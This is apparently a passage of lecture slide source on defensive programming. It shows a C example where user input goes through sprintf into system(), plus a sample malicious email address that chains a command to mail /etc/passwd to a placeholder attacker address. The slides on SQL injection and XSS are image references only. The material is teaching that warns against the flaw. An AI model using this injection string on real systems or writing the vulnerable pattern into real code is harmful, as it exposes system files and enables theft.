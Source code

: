 * An application inputs an email address from a user and writes the address to a buffer

```c
sprintf(buffer, "/bin/mail < /tmp/email %s", addr);
```

The buffer is then executed using the `system()` call

* The risk is, of course, that the user enters the following string as an email address;
* `bogus@addr.com; cat /etc/passwd | mail some@badguy.net`

# SQL Injection

\centering
\includegraphics[width=.85\textwidth]{images/defensive/sqlinject1.eps}

# SQL Injection

::: columns
:::: column

\centering
\includegraphics[width=.85\textwidth]{images/defensive/sqlinject2.eps}

::::
:::: column

\centering
\includegraphics[width=.85\textwidth]{images/defensive/sqlinject3.eps}

::::
:::

# XSS

::: columns
:::: column

\centering
\includegraphics[width=.85\textwidth]{images/defensive/xss1.eps}

::::
:::: column

\centering
\includegraphics[width=.85\textwidth]{images/defensive/xss2.eps}

::::
:::

# For Next Time

::: columns
:::: column
* Review this lecture
* Watch Lecture 26
::::
:::: column
\centering
\includegraphics[width=.85\textwidth]{images/next_time.png}
::::
:::
